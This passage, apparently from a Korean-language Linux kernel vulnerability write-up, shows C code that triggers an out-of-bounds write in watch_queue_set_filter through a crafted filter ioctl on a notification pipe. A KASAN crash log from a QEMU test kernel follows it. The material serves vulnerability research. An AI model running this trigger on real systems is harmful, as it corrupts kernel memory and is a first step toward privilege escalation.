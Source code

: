 ```c
    {
        filter->filters[i].type = 1;
    }

    filter->filters[nfilters - 1].type = 0x100;

    if (pipe2(fds, O_NOTIFICATION_PIPE) == -1)
    {
        perror("trigger_vuln: pipe2 failed\n");
        exit(0);
    }

    if(ioctl(fds[0], IOC_WATCH_QUEUE_SET_FILTER, filter) < 0)
    {
        perror("trigger_vuln: ioctl failed\n");
        exit(0);
    }
}

int main(void)
{
    printf("[*] Trigger vulnerability\n");
    trigger_vuln();
}
```

해당 코드를 실행하면 다음과 같이 KASAN 이 `watch_queue_set_filter()` 함수에서 out-of-bounds 를 탐지하는 것을 볼 수 있다. 

```bash
~ # ./exploit 
[*] Trigger vulnerability
[    9.886500] ==================================================================
[    9.887037] BUG: KASAN: slab-out-of-bounds in watch_queue_set_filter+0x24f/0x3a0
[    9.887759] Write of size 4 at addr ffff888103f5c42c by task exploit/119
[    9.888197] 
[    9.888452] CPU: 0 PID: 119 Comm: exploit Not tainted 5.13.18 #6
[    9.888909] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
[    9.889598] Call Trace:
[    9.889922]  dump_stack+0xa1/0xd3
[    9.890210]  ? watch_queue_set_filter+0x24f/0x3a0
[    9.890561]  print_address_description.constprop.0+0x1d/0x140
[    9.890820]  ? watch_queue_set_filter+0x24f/0x3a0
[    9.891147]  ? watch_queue_set_filter+0x24f/0x3a0
[    9.891453]  kasan_report.cold+0x7d/0x10d
[    9.891728]  ? watch_queue_set_filter+0x24f/0x3a0
[    9.892037]  __asan_store4+0x8b/0xa0
[    9.892301]  watch_queue_set_filter+0x24f/0x3a0
[    9.892614]  ? watch_queue_set_size+0x2b0/0x2b0
[    9.892880]  ? __kasan_check_read+0x11/0x20
[    9.893225]  pipe_ioctl+0x13e/0x160
[    9.893502]  __x64_sys_ioctl+0xc3/0x100
[    9.893769]  do_syscall_64+0x61/0x80
[    9.894014]  ? asm_exc_page_fault+0x8/0x30
[    9.894289]  entry_SYSCALL_64_after_hwframe+0x44/0xae
[    9.894656] RIP: 0033:0x45086f
[    9.895132] Code: 00 48 89 44 24 18 31 c0 48 8d 44 24 60 c7 04 24 10 00 00 00 48 89 44 24 08 48 8d 44 24 20 48 89 44 24 10 b8 10 00 00 00 0f 05 <41> 89 c0 3d 00 f0 ff ff 77 1f 48 8b 44 24 18 64 48 2b 04 25 20
[    9.896386] RSP: 002b:00007ffcf79ba0e0 EFLAGS: 00000246 ORIG_RAX: 0000000000000010
[    9.896863] RAX: ffffffffffffffda RBX: 00007ffcf79ba368 RCX: 000000000045086f
[    9.897287] RDX: 0000000002097780 RSI: 0000000000005761 RDI: 0000000000000003
[    9.897605] RBP: 00007ffcf79ba160 R08: 00007ffcf79b9f80 R09: 0000000002097780
[    9.898069] R10: 000000000000006f R11: 0000000000000246 R12: 0000000000000001
[    9.898538] R13: 00007ffcf79ba358 R14: 00000000004c37d0 R15: 0000000000000001
```